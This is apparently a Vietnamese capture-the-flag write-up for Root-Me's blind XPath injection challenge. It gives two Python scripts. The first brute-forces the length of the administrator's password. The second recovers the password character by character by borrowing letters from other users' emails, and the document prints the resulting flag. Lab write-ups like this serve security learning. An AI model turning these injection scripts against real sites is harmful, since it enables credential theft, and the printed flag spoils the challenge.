



```diff
@@ Web-server Challenge @@
```

## XPath injection - Blind [75 Points ]

- Mục tiêu của challenge này là tìm cách tiêm vào trang web để thu được thông tin về mật khẩu của tài khoản **administrator**. Lướt qua ta thấy có trang *Member* cho phép chúng ta xem user profile. Nó thực hiện tìm kiếm thông tin của user qua userid mà chúng ta cung cấp trên đường dẫn.

  

  ​

- Thử nhập linh tinh vào thì xuất hiện ra lỗi Xpath như hình dưới.

  

  ​

- Vậy là ta nắm được câu query của trang web tới XML document. Để khai thác thêm thông tin, ta cần thực hiện các blind boolean query để brute-force các ký tự trong password của account **admin** mà ở đây có userid = 2. 

- Đầu tiên thử xem các ký tự có bị filter không, ta thử các từ ```and``` ,```<whitespace>```, ```or``` , ```string-length```, ..v..v thì thấy chỉ có filter bằng hàm addslash cho dấu ```'``` và ```"```. 

- Tiếp đó để biết được có node nào trong tài liệu có tên là ```password``` hay không, em thực hiện brute-force độ dài của node ```password``` thì thấy có kết quả => kết luận có node password trong document và độ dài của nó là 14.

  ```python
  import requests

  url = "http://challenge01.root-me.org/web-serveur/ch24/?action=user&userid=2 "
  for i in range(1,30):
    xpath = "and string-length(password)= " + str(i)
    r = requests.get(url=url + xpath)
    if ("John" in r.text):
      print("Length of passwd: ",i)
      break
  # => Result: Length of passwd:  14
  ```

- Để brute-force password mà không dùng ký tự, em đã thử hàm ```codepoints-to-string()``` tìm được trên google để đưa các ký tự ASCII vào thay thế, nhưng trang web phản hồi rằng không tìm thấy hàm này, tức version này của xpath không có hàm này. Đến đây thì hết các cách thông thường.

- Một ý tưởng mới để giải quyết vấn đề này là dùng các ký tự sẵn có của các user khác. Ví dụ:

  Muốn có chữ ```a```, ta có thể thay thế bằng cách dùng substring(\\\user[userid=3]\email,5,1) để lấy ký tự a trong email của user có id = 3 (```ric@ard.biz```). Mặc dù không có hết các ký tự ascii, nhưng ta có thể đoán thêm ở các vị trí còn thiếu sau, payload sẽ trông như thế này:

  ```python
  import requests
  url = "http://challenge01.root-me.org/web-serveur/ch24/?action=user&userid=2 "
  passwd = ''
  dictionary = {
    "a":"substring(//user[3]/email,5,1)",
    "b":"substring(//user[1]/email,9,1)",
    "c":"substring(//user[3]/email,3,1)",
    "d":"substring(//user[2]/email,6,1)",
    "e":"substring(//user[1]/email,3,1)",
    "g":"substring(//user[2]/email,12,1)",
    "h":"substring(//user[2]/email,3,1)",
    "i":"substring(//user[3]/email,2,1)",
    "J":"substring(//user[2]/email,1,1)",
    "l":"substring(//user[5]/email,2,1)",
    "m":"substring(//user[1]/email,14,1)",
    "n":"substring(//user[2]/email,4,1)",
    "o":"substring(//user[2]/email,2,1)",
    "r":"substring(//user[3]/email,1,1)",
    "s":"substring(//user[1]/email,1,1)",
    "t":"substring(//user[1]/email,2,1)",
    "v":"substring(//user[1]/email,4,1)",
    "y":"substring(//user[4]/email,5,1)",
    "z":"substring(//user[3]/email,11,1)",
    "0":"string(0)",
    "1":"string(1)",
    "2":"string(2)",
    "3":"string(3)",
    "4":"string(4)",
    "5":"string(5)",
    "6":"string(6)",
    "7":"string(7)",
    "8":"string(8)",
    "9":"string(9)",
    "@":"substring(//user[3]/email,4,1)",
    ".":"substring(//user[3]/email,8,1)",
    "u":"substring(//user[4]/account,2,1)",
    "j":"substring(//user[1]/email,7,1)",
    "E":"substring(//user[5]/email,1,1)",
    "S":"substring(//user[1]/username,1,1)"
  }
  for i in range(1,15):
    for j in dictionary.keys():
      xpath = "and substring(//user[userid=2]/password,{},1) = {}".format(i,dictionary[j])
      r = requests.get(url=url+xpath)
      if("John" in r.text):
        passwd+= j
        print(passwd)
        break
  ```

- Kết quả ta thu được password mặc dù không có đủ ký tự ascii để brute-force

  

  ```diff
  -- Flag là: ueiJ4a65@1.oS 
  ```

- *Note: Mặc dù độ dài của password lúc đầu ta brute-force là **14 ký tự**, nhưng chỉ tìm được 13 ký tự như trên, em submit thì vẫn được chấp nhận bình thường, em nghĩ là có gì đó vấn đề ở server của challenge mà em không tìm được nguyên nhân*